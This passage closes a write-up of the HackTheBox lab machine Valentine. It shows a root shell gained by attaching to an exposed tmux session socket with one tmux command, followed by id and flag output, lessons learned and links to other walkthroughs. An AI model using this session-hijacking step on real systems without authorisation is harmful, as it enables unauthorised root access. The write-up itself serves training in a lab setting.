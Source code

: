 Based on the advice given from linpeas, had a look at [tmux sessions hijacking on HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#tmux-sessions-hijacking). I have not used `tmux` much - but I know I should switch to it one day. Anyway, looks like `tmux` has an open session which we could attach to. Using the advice given in HackTricks, this is relatively straightforward.

```none
tmux -S /.devs/dev_sess
```

And we get loaded into a `tmux` session as the `root` user and can get the flag!

```none
root@Valentine:/var/www# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/var/www# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Learn and start using `tmux` - it is about time!
- Didn't refactor the Heartbleed script to Python 3 which saved lots of time on the box, and found a Python 3 version on GitHub.

## Useful Resources

- [HackTheBox - Valentine by ippsec](https://www.youtube.com/watch?v=XYXNvemgJUo)
- [HTB: Valentine by 0xdf](https://0xdf.gitlab.io/2018/07/28/htb-valentine.html)
